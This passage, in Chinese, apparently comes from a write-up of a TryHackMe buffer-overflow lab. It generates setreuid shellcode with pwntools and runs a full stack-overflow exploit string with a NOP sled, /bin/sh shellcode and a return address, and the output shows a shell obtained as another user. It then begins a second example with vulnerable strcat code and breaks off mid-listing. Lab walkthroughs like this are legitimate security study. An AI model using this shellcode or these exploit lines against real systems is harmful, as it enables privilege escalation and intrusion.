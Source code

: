             ```
            pwn shellcraft -f d amd64.linux.setreuid 1002
            #-f d将shellcode格式设置为“转义”，也可以设置-f a 以查看汇编版本的shellcode
            ```
            ```
            ┌──(kali㉿kali)-[~/桌面/THM/Buffer Overflows]
            └─$ sudo pwn shellcraft -f d amd64.linux.setreuid 1002
            [sudo] kali 的密码：
            \x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
            ```
            得到setreuid(1002,1002)所对应的shellcode：

            ```
            \x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
            ```
            + 将setreuid(1002,1002)所对应的shellcode添加到我们之前获得目标shell所使用的shellcode之中即可，最终需执行以下命令:

            ```
            ./buffer-overflow $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x41'*8 + '\x98\xe2\xff\xff\xff\x7f')")
            ```
            ```
            [user1@ip-10-10-138-137 overflow-3]$ ls
            buffer-overflow  buffer-overflow.c  secret.txt
            [user1@ip-10-10-138-137 overflow-3]$ ./buffer-overflow $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x41'*8 + '\x98\xe2\xff\xff\xff\x7f')")
            Here's a program that echo's out your input
            ������������������������������������������������������������������������������������������1�f��jqXH��j;XH1�I�//bin/shI�APH��RWH��j<XH1�AAAAAAAA�����
            sh-4.2$ whoami
            user2
            sh-4.2$ ls
            buffer-overflow  buffer-overflow.c  secret.txt
            ```
            
## 缓冲区溢出示例2

+ 首先查看overflow-4 文件夹下的buffer-overflow-2.c文件。

    ```
    [user1@ip-10-10-242-128 overflow-4]$ ls
    a.out  buffer-overflow-2  buffer-overflow-2.c  secret.txt
    [user1@ip-10-10-242-128 overflow-4]$ cat buffer-overflow-2.c
    #include <stdio.h>
    #include <stdlib.h>

    void concat_arg(char *string)
    {
        char buffer[154] = "doggo";
        strcat(buffer, string);
        printf("new word is %s\n", buffer);
        return 0;
    }
